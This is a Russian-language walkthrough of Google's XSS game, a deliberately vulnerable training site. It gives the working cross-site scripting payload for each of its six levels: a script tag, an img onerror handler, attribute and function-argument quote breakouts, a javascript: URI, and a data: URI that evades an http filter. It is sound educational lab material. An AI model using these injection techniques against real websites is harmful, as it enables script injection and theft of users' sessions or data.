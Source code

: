 # Разбор xss-game от google

![xss-game](https://user-images.githubusercontent.com/74491315/147869811-e1fb566e-1e50-4c17-a8d1-15c19b1f8a41.png)

## [1/6]  Level 1: Hello, world of XSS

Видим строку поиска, тыкаем, видим, что улетает GET запрос с параметром ```query```. В ответе говорится, что по моему запросу ничего не найдено. Пробуем скормить спецсимволы, видим, что они встраиваются в DOM.

Тупо скармливаем нагрузку:

```html
<script>alert()</script>
```

## [2/6]  Level 2: Persistence is key

На странице можно оставить комментарий. Пробуем загрузить картинку по несуществующему адресу и вешаем обработчик ошибок:

```html
<img src=qwe onerror=alert()>
```

## [3/6]  Level 3: That sinking feeling...

Итак, видим, что мы можем манипулировать адресом, по которому загружается картинка на страницу. Забавно, что для рендеринга имени картинки парсится ввод, а для формирования адреса нет.

```js
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
Посему, наша нагрузка будет выглядить так:
```
1337' onerror=alert() qwe='
```
С помощью кавычки выходим из контекста имени картинки, вешаем обработчик и добавляем еще один параметр, чтобы расширение картинки не ломало контекст. Получился валидный html:

```html
<img src='/static/level3/cloud1337' onerror=alert()  qwe='.jpg' />
```

## [4/6]  Level 4: Context matters

Тут есть форма, которая шлёт GET запрос с параметром ```timer```. Видим, что далее рендерится страница ```timer.html```

Видим, что мы можем манипулировать аргументом функции обработчика:

![timer](https://user-images.githubusercontent.com/74491315/147869660-e547470a-bda9-4ebe-b721-ba030938f04a.png)

Наша нагрузка будет выглядить так:

```
1');alert('
```

Опять же, выходим из контекста аргумента функции ```startTimer``` и встраиваем свой код:

```html
<img src="/static/loading.gif" onload="startTimer('1');alert('');" />
```

## [5/6]  Level 5: Breaking protocol

Переходим по ссылке для регистрирации, видим, поле для ввода ```email``` и ссылку ```Next```. Видим, что мы можем манипулировать значением ```href```:

![image](https://user-images.githubusercontent.com/74491315/147869720-2e5e9330-4c84-4d67-b9fa-ca7d6360abad.png)

Все просто, используем протокол ```javascript``` и исполняем свой код:

```
javascript:alert()
```
## [6/6]  Level 6: Follow the 🐇

Не сложно догадаться, что путь ```/static/gadget.js``` в урле неспроста. На странице говорится, что гаджет загружен из ```/static/gadget.js```. Так же мы видим регулярку, которая не дает нам скормить ссылку с протоколами ```https``` и ```http```:

```js
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
  "Sorry, cannot load a URL containing \"http\".");
  return;
}
```

Ок, браузер умеет [встраивать файлы прямо в документ](https://developer.mozilla.org/ru/docs/Web/HTTP/Basics_of_HTTP/Data_URIs), чем мы и воспользуемся:

```
data:text/javascript,alert()
```

Вот и всё :)
